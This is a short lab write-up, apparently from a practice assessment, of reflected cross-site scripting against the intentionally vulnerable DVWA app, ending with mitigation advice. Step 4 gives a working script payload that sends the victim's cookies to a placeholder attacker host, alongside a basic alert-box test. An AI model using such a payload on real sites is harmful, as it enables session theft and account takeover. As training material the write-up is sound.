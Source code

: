 # XSS (Cross-Site Scripting) — DVWA

> Note: This report documents a practice assessment against DVWA for learning purposes.

---

## TL;DR

* Target: DVWA (local/lab).
* Issue: Reflected XSS vulnerability on the "XSS (Reflected)" page.
* Result: Executed arbitrary JavaScript in the context of the web page, demonstrating the impact.

---

## Environment / scope

* Attacker: Kali Linux (local).
* Target: DVWA (lab instance).
* Tools: Browser, Burp Suite (optional for payload testing and encoding).

---

## 1) Objective

Identify reflected XSS in DVWA and demonstrate potential impact by executing JavaScript in a victim's browser.

---

## 2) Steps performed

1. Open the DVWA web application and navigate to the **XSS (Reflected)** page.
2. Inject a simple script payload into the input field to test for immediate execution, for example:

```html
<script>alert("XSS")</script>
```

3. Submit the input and observe the JavaScript executing in the browser (an alert box in this test), confirming a reflected XSS vulnerability.

4. For more realistic testing or to deliver a proof-of-concept that exfiltrates data, use a payload that sends document cookies to a controlled server (only in lab environments):

```html
<script>new Image().src='http://<ATTACKER_HOST>/steal?c='+document.cookie</script>
```

Use Burp to test and encode payloads if necessary.

---

## 3) Results

* The payload executed successfully in the victim browser context, indicating a reflected XSS flaw.
* This vulnerability demonstrates the ability to run JavaScript in the victim's session, which can be leveraged for session theft, UI redressing, or phishing.

---

## 4) Conclusion & mitigation

**Root cause:** Unsanitized user input rendered directly into page output.
**Mitigations:**

* Implement proper output encoding/escaping on all untrusted inputs.
* Use a Content Security Policy (CSP) to reduce impact of XSS.
* Validate and sanitize inputs where appropriate; use secure templating frameworks.

---

*End of report.*
